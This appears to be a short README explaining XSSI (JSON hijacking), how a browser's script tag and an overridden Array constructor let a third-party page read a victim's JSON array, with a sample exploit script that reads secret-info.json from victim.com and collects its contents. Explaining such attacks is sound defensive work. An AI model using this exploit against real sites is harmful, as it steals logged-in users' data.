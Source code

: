 # XSSI Overview

A JSON vulnerability allows third party website to turn your JSON resource URL into JSONP request under some conditions.
Exposed when a GET request is made to retrieve JSON information as an array.
Combined to a CSRF attack. 

## How XSSI works ?

1. Cross-domain HTTP requests is possible via the `src` attribute of `<script>` tag
1. Your browser sends your credential automatically
1. Returning a JSON array is valid as the source for a JavaScript `<script>` tag
1. JavaScript allows us to redefine the Array constructor

Sample Exploit:

``` typescript
<script type="text/javascript">
    var secrets;
    Array = function() {
        secrets = this;
    };
</script>

<script src="http://victim.com/demos/secret-info.json" type="text/javascript"></script>

<script type="text/javascript">
    var yourData = '';
    var i = -1;
    while(secrets[++i]) {
        yourData += secrets[i] + ' ';
    }
    alert('I stole your data, I can exploit it / send it to another server : ' + yourData);
</script>
```

